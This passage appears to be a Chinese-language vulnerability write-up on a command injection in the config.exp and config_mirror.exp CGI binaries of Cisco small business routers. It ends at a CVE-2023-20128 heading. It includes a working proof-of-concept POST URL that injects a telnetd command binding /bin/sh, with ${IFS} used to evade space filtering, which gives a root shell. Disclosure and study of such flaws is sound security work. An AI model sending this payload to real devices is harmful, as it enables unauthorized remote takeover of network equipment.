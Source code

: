 **https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-sbr042-multi-vuln-ej76Pke5.html**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBQ6DicNAF5eALMeKDmxffSXn8vXV763tcxXQsY4xjpdIQSxRRqjkLsOg/640?wx_fmt=other&from=appmsg "")  
  
  
**漏洞细节**  
  
  
该漏洞存在于 ****/usr/local/EasyAccess/www/cgi-bin/config.exp**二进制文件中，并同样存在于相似的**/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp****文件中。  
  
  
在主函数中，可见当我们的请求中包含**export_cert&**字符串时，将进入**exportconfig_CertFile**函数。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBcZCLicjQbwxmX1ULoG89wv9H7JicTkxkdSbZbgB76hfibuhUlgltoDcjg/640?wx_fmt=other&from=appmsg "")  
  
  
在**exportconfig_CertFile**函数中，当最后一个**&**后面的内容是**MY_CA**, 第二个和第三个**&**之间的内容将会被拼接入**acStack1088**变量，并作为**system**函数的参数执行命令。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMB6wyWWic8u9j8e21g69l6wIdHwibHdYib9gibql2ibICPm4GD5BDIUXCib34A/640?wx_fmt=other&from=appmsg "")  
  
  
  
**Poc**  
  
  
然而，在实际测试中，我们发现这些设备过滤（转义）了空格，不过可以用****${IFS}****来代替。  
  
以**POST**请求向[https://192.168.1.1/cgi-bin/config.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA发送任意内容的报文。](https://192.168.1.1/cgi-bin/config.exp?export_cert&abc&;/usr/sbin/telnetd$%7BIFS%7D-l$%7BIFS%7D/bin/sh;&abc&MY_CA%E5%8F%91%E9%80%81%E4%BB%BB%E6%84%8F%E5%86%85%E5%AE%B9%E7%9A%84%E6%8A%A5%E6%96%87%E3%80%82)  
  
  
  
或者：以**POST**请求向**https://192.168.1.1/cgi-bin/config_mirror.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA**发送任意内容的报文。  
  
  
**攻击演示**  
  
  
按照上述**Poc**发送请求报文：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBA9nqWu7V5Hud1XClQDXPSvlXZNb3vFuEwTc5B0KYbSerTcI6Z7xsTw/640?wx_fmt=other&from=appmsg "")  
  
  
攻击后，可以通过**telnet**远程登录设备并获得了设备的最高控制权：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBjRtojicOAqichnO4NlAw1F8uVs5WuQwv0BeAibpicP1QLkIKom7ibOLxyEw/640?wx_fmt=other&from=appmsg "")  
  
  
  
  
******CVE-2023-20128**  
  
  
**漏洞描述**  
  
  